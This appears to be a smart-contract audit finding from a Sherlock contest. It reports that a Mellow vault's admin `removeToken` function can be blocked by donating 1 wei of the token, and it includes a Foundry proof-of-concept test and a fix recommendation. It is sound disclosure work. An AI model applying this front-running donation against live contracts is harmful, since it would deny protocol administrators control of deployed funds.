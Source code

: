 Raspy Holographic Liger

Medium

# DOS of removeToken through donation

## Summary
Function `removeToken` can be DOS-ed by donation of 1 wei of the token to be removed.
## Vulnerability Detail
```solidity
function removeToken(address token) external nonReentrant {
        _requireAdmin();
        if (!_isUnderlyingToken[token]) revert InvalidToken();
        (address[] memory tokens, uint256[] memory amounts) = underlyingTvl();
        uint256 index = tokens.length;
        for (uint256 i = 0; i < tokens.length; i++) {
            if (tokens[i] == token) {
                if (amounts[i] != 0) revert NonZeroValue(); //@audit can DOS this
                index = i;
                break;
            }
        }
    ...
}
```

This admin function is used to remove a token from the underlyingTokens list. However, because the function requires that there is zero balance of that token in the contract, it can be easily DOS-ed through front running with a donation of as little as 1 wei of that token.

Proof of concept:
Add this test to VaultTest.t.sol
```solidity
function test_POC_DOSRemoveTokens() external {
        Vault vault = new Vault("Mellow LRT Vault", "mLRT", admin);
        ERC20TvlModule tvlModule = new ERC20TvlModule();

        vm.startPrank(admin);
        vault.addTvlModule(address(tvlModule));
        vault.addToken(Constants.WETH);
        vault.addToken(Constants.WSTETH);
        vault.addToken(Constants.RETH);

        address[] memory underlyingTokens = vault.underlyingTokens();
        assertEq(underlyingTokens.length, 3);
        assertEq(underlyingTokens[0], Constants.WSTETH);
        assertEq(underlyingTokens[1], Constants.RETH);
        assertEq(underlyingTokens[2], Constants.WETH);

        deal(Constants.WSTETH, address(vault), 1 wei);
        vm.expectRevert(abi.encodeWithSelector(bytes4(keccak256("NonZeroValue()"))));
        vault.removeToken(Constants.WSTETH);
    }
```
## Impact
Admin is unable to remove the token from the underlyingToken list, which is crucial to Mellow's operations.

Attack is cheap and easy to pull off resulting in permanent DOS of the function. 

## Code Snippet
https://github.com/sherlock-audit/2024-06-mellow/blob/main/mellow-lrt/src/Vault.sol#L212

## Tool used
Manual Review

## Recommendation
Consider tracking the token balances internally, or allow for token removal even with positive balances. 